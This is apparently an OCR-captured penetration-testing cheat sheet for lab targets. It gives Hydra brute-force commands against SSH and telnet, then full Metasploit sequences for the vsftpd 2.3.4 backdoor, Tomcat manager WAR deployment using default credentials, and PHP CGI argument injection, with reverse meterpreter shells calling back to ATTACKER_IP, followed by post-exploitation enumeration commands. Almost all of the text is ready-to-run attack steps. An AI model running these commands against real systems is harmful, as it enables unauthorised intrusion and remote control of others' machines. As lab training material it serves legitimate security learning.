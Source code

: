 Hydra (alternative)
hydra -L ~/ssh_users.txt -P ~/ssh_pass.txt ssh://TARGET_IP -t 4
hydra -L ~/ssh_users.txt -P ~/ssh_pass.txt telnet://TARGET_IP -t 4

4. Exploitation (common lab examples)

Metasploit module pattern: use exploit/<platform>/<service>/<name> → show options → set RHOSTS TARGET_IP → other options → exploit

# vsftpd 2.3.4 backdoor (FTP)
sudo msfconsole -q
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS TARGET_IP
set RPORT 21
set PAYLOAD cmd/unix/interact
exploit

# Tomcat manager WAR deploy (if manager accessible)
use exploit/multi/http/tomcat_mgr_deploy
set RHOSTS TARGET_IP
set RPORT 8080
set HTTPUSERNAME tomcat
set HTTPPASSWORD tomcat
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST ATTACKER_IP
set LPORT 4444
exploit

# PHP CGI Arg Injection (HTTP)
use exploit/multi/http/php_cgi_arg_injection
set RHOSTS TARGET_IP
set RPORT 80
set LHOST ATTACKER_IP
set LPORT 4444
set PAYLOAD php/meterpreter/reverse_tcp
exploit

5. Post‑Exploitation (enumeration, privilege checks)

Run inside obtained shell/session:

# Basic info
whoami
id
uname -a
cat /etc/os-release
hostname
ip a
